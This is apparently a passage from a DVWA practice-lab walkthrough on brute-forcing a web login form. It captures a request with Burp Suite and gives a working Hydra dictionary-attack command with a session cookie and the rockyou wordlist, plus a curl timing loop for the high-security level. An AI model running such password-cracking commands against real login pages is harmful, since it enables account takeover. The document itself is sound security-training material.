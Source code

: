 Set up your machine the same way as we did in Low security:

1 - Set up proxy for 127.0.0.1
2 - Launch Burp Suite
3 - Intercept the traffic with random credentials.

Make note of the web request interception, you will need to copy the following information as these will be needed for constructing the brute forcing attack:

<pre>GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
Cookie: security=low; PHPSESSID=3f319f0402f5ec006e7b70da8ea92bf4</pre>

Once you have noted the GET request and Cookie information, you can close down Burp Suite and turn your proxy off. 

**Hydra**

Now we are ready to construct our Hydra command. [THC-Hydra](https://tools.kali.org/password-attacks/hydra) is a tool which is used for login cracking. Here is the template we will use:

<pre>hydra [host] -l [user] -P [passwordlist] http-get-form “ [username ^USER^ password ^PASS^ ] : F=[Failed Message] : H=Cookie: [Cookie Value]” </pre>

So here is the command that I need to use:

<pre> hydra 192.168.56.118 -l admin -P "/usr/share/wordlists/rockyou.txt" http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=3f319f0402f5ec006e7b70da8ea92bf4"</pre>

This command is first specifying our host IP, -l user, -P wordlist, http-get-form is the type of traffic (this is a GET request). "/login/page : username and password field : F = Our message we noted if login is incorrect : H=Cookie: Our cookie from this session". Run this command on your machine, you can include -V as well to see the verbose output to see what's going on.

I have used a premade wordlist in Kali Linux, but you can use anything you like. This is the output: 

![dictionary](https://imgur.com/YwO5AfI.png) 

The password “password” has been found by looking at the responses of the web requests made by hydra. Hydra keeps testing passwords until it receives anything but the failed login message we specified.

We can confirm this with the DVWA page. 

![success](https://imgur.com/alQco9v.png)

## High Security

Let's start by running our previous hydra command.

If you run the command again, you will notice the attack taking a significantly longer amount of time. Let's see how long the response time is. We can compare the medium and high security level response times.

I'll set up a for loop to make sure the results are reliable.

<pre>for loop in {1..3}; do
time curl -s -b 'security=medium; PHPSESSID=3f319f0402f5ec006e7b70da8ea92bf4' -b dvwa.cookie 'http://192.168.56.118/dvwa/vulnerabilities/brute/?username=123&password=123&Login=Login#' > /dev/null
done</pre>
